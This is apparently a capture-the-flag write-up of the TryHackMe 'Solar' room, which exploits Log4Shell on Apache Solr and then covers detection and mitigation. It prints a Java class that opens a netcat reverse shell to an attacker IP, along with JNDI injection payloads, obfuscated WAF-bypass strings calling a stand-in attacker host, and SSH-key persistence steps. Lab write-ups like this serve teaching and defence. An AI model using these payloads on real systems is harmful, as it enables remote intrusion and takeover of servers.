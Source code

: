 ```yaml
---
title: Solar, exploiting log4j
date: 2021-12-15 00:20:00 +0100
categories: [Writeups]
tags: [thm,log4j]
---
```


# Solar, exploiting log4j

Solar is a TryHackMe box design to introduce and explore CVE-2021-44228 also called `log4shell`. The idea is to gain a better understanding on how the vulnerability work and also provide knowledge on how to detect and mitigate/patch. 

This room has been made by the great [John Hammond](https://twitter.com/_johnhammond).

## A little bit of history

On *December 9th, 2021*, the world was made aware of a new vulnerability identified as [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), affecting the Java logging package `log4j`. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this `log4j` version. This attack has been dubbed "Log4Shell" - John Hammond

The vulnerability has been patched in the latest version of `log4j` (2.15.0rc2) but there is still potentially millions of applications vulnerable in the wild. ([list](https://github.com/YfryTchsGD/Log4jAttackSurface))

## Reconnaissance

Let's start with our default `nmap` TCP port scan to find potentially vulnerable services.

```txt
sudo nmap -sS -T4 -p- 10.10.111.77 -vv 

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
111/tcp  open  rpcbind syn-ack ttl 63
8983/tcp open  unknown syn-ack ttl 63
```

The application is accessible through HTTP, we land on a `Solr 8.11.0` dashboard. `Apache Solr` is an open-source enterprise-search platform, written in Java ([Wikipedia](https://en.wikipedia.org/wiki/Apache_Solr))

![solr_recon](/assets/images/solar/solr_app.png)

## Discovery

The TryHackMe room make some Solr logs available for us to analyse.

In the logs, we can see requests to the path `/admin/cores` with a parameter called `param={}`\
It could potentially be some GET or POST data sent with the request that gets include in the logs.

![solr_logs](/assets/images/solar/solr_log.png)

This `param` parameter could be an entry point as the `log4j` will try to "parse" entries to enrich data, which could lead to undesirable action like execution of code.

## Proof of Concept

The basic payload syntax is `${jndi:ldap://IP}`.\
This payload use the `JNDI` ([Java Naming and Directory Interface](https://fr.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) functionnality to access external resources (and in our case a remote IP) using the `ldap` protocol.

If we were to open a listener on a port on our attacking machine and send a GET request to the path with a fake parameter containing the payload, we would see a connection back from the server.

![log4j_poc](/assets/images/solar/solr_poc.png)

This proves the `log4j` logging system query our attacking machine and is vulnerable to `CVE-2021-44228`.

## Exploitation

The problem is that our listener does not understand the `ldap` protocol, for this reason we need a **LDAP Referral Server** that will redirect the client request to a secondary HTTP server hosting the malicious file that will be ultimately executed on the target.

We can use [marshalsec](https://github.com/mbechler/marshalsec) as our LDAP Referall server. I will skip the java building step as it is not of interest here, but we should have a working LDAP server ready to run.

The next step is to create a malicious java class that will get executed on our target.

Exploit.java

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.25.40 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

This simple code is a java class running a reverse shell using `exec()` method. Finally we need to compile the code into a `.class` executable with `javac Exploit.java -source 8 -target 8`.

We have everything we need to exploit the target. Now it's time for the show !\
We host the malicious `.class` executable on our python3 HTTP server.\
We run the LDAP Referral server pointing to our python3 server and finally we open a listener on the port specified in the reverse shell.

The only thing left to do is to GET request the vulnerable server just like the PoC but with a path pointing to our `Exploit` file.

![log4j_exploit](/assets/images/solar/solr_exploitation.png)

And we got our shell back ! Let's summarize the exploitation chain.

1. Curl request to injectable parameter with payload to our LDAP controlled server
2. LDAP Referral server receives the request from Solr server and direct the connection to our second HTTP server
3. Our secondary HTTP server serve the malicious java class `Exploit.class`
4. The malicious java class is executed by the server and we receive our reverse shell in our listener.

## Persistence

As we are the user `solr`, checking our home directory reveals a `.ssh` folder. We can create a persistence by generating a temporary key pair and add our public key to the `.ssh/authorized_keys` file.

We can now properly connect to the target using SSH.

## Detection

Looking at the log inside the target, we see our injected payload.

![injected_payload](/assets/images/solar/solr_log_payload.png)

In our context, the vulnerability is easy to detect because it appears in a single parameter in a GET request and we used the default payload but in a real world environment, it could be very difficult to find, and even harder because of the massive amount of bypasses.

John Hammond then shares some links from the community that worked hard those last few days to mitigate the threat.\
Feel free to browse them.

## Bypasses

The syntax we used in our payload is the default one and it might be caught by Web Application Firewalls (WAFs).
The room shows some bypasses we can experiment with.

Here are some of them.

```txt
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

What we need to understand, is that bypasses can be of many forms because the attack targets `log4j` and payloads can also access all the "tools" `log4j` uses to do its magic.

## Mitigation

A mitigation was released soon after the vulnerability was made public, we need to add the line `SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"` in the system-wide configuration file `/etc/default/solr.in.sh`

Retrying our previous exploit now fail which is good !

![mitigation](/assets/images/solar/solr_mitigate.png)

## Patching

At the time of writing this writeup, a lot of applications are still vulnerable to `CVE-2021-44228`, please take some time to better understand the vulnerability and look out for patches from vendors as it is a critical threat affecting millions of different devices from web servers to software clients.

Finally a message from John Hammond, I think is important to share.

*Please be understanding of this frenzy. There are so many potential places that this log4j vulnerability could be present, we may never see the end of this vulnerability for a long, long time. The onus is on you, on me, on each and every one of us to raise awareness of this incident, and hold the community accountable for actively responding.  When the time comes, roll out the patches that have been made available and continue to hunt for instances of this vulnerability. It takes a village.*

## Credits

I would like to thanks the amazing work from John Hammond for creating this room and being such a great actor in the cybersecurity community. Please check out his [Youtube channel](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw) for more content and be free to complete this room as it will give you better knowledge to detect and mitigate the vulnerability.

Hope you enjoy reading ! 